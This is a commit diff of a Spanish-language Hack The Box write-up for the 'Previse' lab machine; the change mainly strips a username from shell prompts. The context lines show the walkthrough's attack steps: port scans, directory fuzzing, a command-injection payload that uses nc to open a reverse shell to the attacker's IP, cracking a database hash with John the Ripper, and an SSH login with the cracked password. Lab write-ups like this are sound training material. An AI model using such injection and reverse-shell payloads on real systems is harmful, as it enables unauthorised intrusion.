

Before and after one commit to WildZarek/wildzarek.github.io, a Jekyll site: the page built from _posts/2022-01-08-previse-htb.md, in a window 1280 px wide. Shown: the part 1836-3756 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
HTB Previse WriteUp

````diff
--- a/_posts/2022-01-08-previse-htb.md
+++ b/_posts/2022-01-08-previse-htb.md
@@ -36,12 +36,11 @@ En primer lugar y como en cualquier máquina, necesitamos información sobre la
 
 Asignamos un virtualhost a la máquina en nuestro archivo `/etc/hosts` por motivos de comodidad. Es una buena práctica a mi parecer.
 
-```bash
-wildzarek@p3ntest1ng:~$ sudo echo '10.10.11.104 previse.htb' >> /etc/hosts
+```console
+p3ntest1ng:~$ sudo echo '10.10.11.104 previse.htb' >> /etc/hosts
 ```
 
-Y ahora sí, ya podemos empezar con el reconocimiento de puertos.
-Primero realizamos un `SYN Port Scan`
+Y ahora sí, podemos empezar con el reconocimiento de puertos con un `SYN Port Scan`
 
 | Parámetro | Descripción |
 | --------- | :---------- |
@@ -55,7 +54,7 @@ Primero realizamos un `SYN Port Scan`
 | -oG       | Guarda el output en un archivo con formato grepeable para usar la funcion [extractPorts](https://pastebin.com/tYpwpauW) de [S4vitar](https://s4vitar.github.io/)
 
 ```console
-wildzarek@p3ntest1ng:~$ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.104 -oG allPorts
+p3ntest1ng:~$ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.104 -oG allPorts
 ```
 
 ![Nmap Scan 1](/assets/images/htb-previse/nmap1.png)
@@ -75,7 +74,7 @@ Identificamos dos puertos abiertos, vamos a obtener más información con un esc
 | -oN       | Guarda el output en un archivo con formato normal      |
 
 ```console
-wildzarek@p3ntest1ng:~$ nmap -sCV -p22,80 10.10.11.104 -oN targeted
+p3ntest1ng:~$ nmap -sCV -p22,80 10.10.11.104 -oN targeted
 ```
 
 ![Nmap Scan 2](/assets/images/htb-previse/nmap2.png)
@@ -89,13 +88,13 @@ Vemos que hay un servidor web corriendo bajo el puerto **80** así que vamos a t
 | -oN       | Guarda el output en un archivo con formato normal |
 
 ```console
-wildzarek@p3ntest1ng:~$ nmap --script http-enum -p80 10.10.11.104 -oN webScan
+p3ntest1ng:~$ nmap --script http-enum -p80 10.10.11.104 -oN webScan
 ```
 
 ![Nmap Scan 3](/assets/images/htb-previse/nmap3.png)
 
 ```console
-wildzarek@p3ntest1ng:~$ whatweb http://previse.htb/
+p3ntest1ng:~$ whatweb http://previse.htb/
 ```
 
 ![whatweb](/assets/images/htb-previse/whatweb.png)
@@ -115,7 +114,7 @@ Puedes usar la que más te guste, yo personalmente prefiero `wfuzz`. Yo acostumb
 En este caso estoy utilizando un diccionario pequeño, si no encontrasemos nada tiraremos de otro más grande.
 
 ```console
-wildzarek@p3ntest1ng:~$ wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc=404 http://previse.htb/FUZZ 2>/dev/null
+p3ntest1ng:~$ wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc=404 http://previse.htb/FUZZ 2>/dev/null
 ```
 
 ![wfuzz de directorios](/assets/images/htb-previse/wfuzz1.png)
@@ -124,7 +123,7 @@ Cuando abrimos la web en el navegador, vemos que automáticamente nos redireccio
 Podemos deducir que habrá más archivos de este tipo, así que vamos a fuzzear la web en busca de más archivos de este tipo.
 
 ```console
-wildzarek@p3ntest1ng:~$ wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc=404 http://previse.htb/FUZZ.php 2>/dev/null
+p3ntest1ng:~$ wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc=404 http://previse.htb/FUZZ.php 2>/dev/null
 ```
 
 ![wfuzz de archivos](/assets/images/htb-previse/wfuzz2.png)
@@ -153,7 +152,7 @@ Registramos una cuenta nueva. Yo puse como usuario `any0ne` y como password `123
 Se observa que tenemos un sistema de subida de archivos y que existe un archivo llamado `sitebackup.zip`. Vamos a descargarlo y descomprimirlo para ver qué contiene.
 
 ```console
-wildzarek@p3ntest1ng:~$ unzip siteBackup.zip
+p3ntest1ng:~$ unzip siteBackup.zip
 ```
 
 ![siteBackup.zip](/assets/images/htb-previse/sitebackup.png)
@@ -185,13 +184,13 @@ delim=comma%26nc+-e+/bin/bash+10.10.14.253+9999
 ```
 
 ```console
-wildzarek@p3ntest1ng:~$ nc -nlvp 9999
+p3ntest1ng:~$ nc -nlvp 9999
 ```
 
 Vamos a mejorar un poco la shell para mayor comodidad, escribiendo lo siguiente:
 
 ```console
-wildzarek@p3ntest1ng:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
+p3ntest1ng:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
 ```
 
 ![Shell](/assets/images/htb-previse/shell.png)
@@ -199,7 +198,7 @@ wildzarek@p3ntest1ng:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
 Anteriormente obtuvimos credenciales de la base de datos analizando el archivo `config.php` así que vamos a echar un vistazo a la base de datos.
 
 ```console
-wildzarek@p3ntest1ng:~$ mysql -h localhost -u root -p previse
+p3ntest1ng:~$ mysql -h localhost -u root -p previse
 ```
 
 ![Database mySQL](/assets/images/htb-previse/dbconnection.png)
@@ -213,8 +212,8 @@ Mientras estamos en la terminal, los caracteres detrás del segundo $ se convier
 El hash correcto es como sigue y lo vamos a romper con `John The Ripper` (esto tardará un rato):
 
 ```console
-wildzarek@p3ntest1ng:~$ echo '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' > hashfile
-wildzarek@p3ntest1ng:~$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hashfile
+p3ntest1ng:~$ echo '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' > hashfile
+p3ntest1ng:~$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hashfile
 
 Using default input encoding: UTF-8
 Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
@@ -229,7 +228,7 @@ Session completed
 Tenemos la contraseña con la cual ya podemos probar a conectarnos por SSH.
 
 ```console
-wildzarek@p3ntest1ng:~$ sshpass -p "ilovecody112235!" ssh m4lwhere@previse.htb
+p3ntest1ng:~$ sshpass -p "ilovecody112235!" ssh m4lwhere@previse.htb
 ```
 
 ![SSH Connection](/assets/images/htb-previse/sshconnection.png)
````
